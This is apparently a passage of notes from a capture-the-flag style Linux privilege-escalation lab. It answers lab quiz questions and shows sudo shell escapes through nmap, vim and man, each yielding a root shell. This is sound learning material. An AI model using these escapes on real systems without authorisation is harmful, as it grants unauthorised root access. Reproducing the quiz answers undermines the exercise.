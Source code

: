 ### How many programs is "user" allowed to run via sudo?

```jsx
11
```

### One program on the list doesn't have a shell escape sequence on GTFOBins. Which is it?

```jsx
apache2
```

### NMAP

---

```jsx
user@debian:~$ sudo /usr/bin/nmap --interactive

Starting Nmap V. 5.00 ( http://nmap.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !bash
root@debian:/home/user#
```

### VIM

---

```jsx
user@debian:~$ sudo vim -c ':!/bin/sh'

sh-4.1# whoami
root
sh-4.1#
```

### Man

---

```jsx
user@debian:~$ man man
							 !/bin/sh
man: can't set the locale; make sure $LC_* and $LANG are correct
sh-4.1# whoami
root
sh-4.1#
```

# Task 7 Sudo - Environment Variables

---

